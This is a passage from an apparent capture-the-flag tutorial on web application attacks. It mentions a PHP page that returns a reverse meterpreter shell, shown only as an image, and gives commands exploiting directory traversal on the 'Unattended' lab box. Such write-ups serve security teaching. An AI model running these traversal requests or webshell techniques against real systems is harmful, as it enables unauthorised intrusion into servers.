 ![](images/Web%20Application%20Attack%20Tactics/image061.png)<br><br>

When the page is visited, the PHP code runs and provides a reverse tcp
meterpreter shell to the attacking machine:

![](images/Web%20Application%20Attack%20Tactics/image062.png)<br><br>

### Putting It All Together

The box **Unattended** is a great example of combining multiple vulnerabilities
together to deploy a webshell.

First, there is a directory traversal vulnerability that allows us to download
a file that is not supposed to be exposed on the server:

```
echo "10.10.10.126 www.nestedflanders.htb" >> /etc/hosts
wget --no-check-certificate https://www.nestedflanders.htb/dev../html/index.php
```
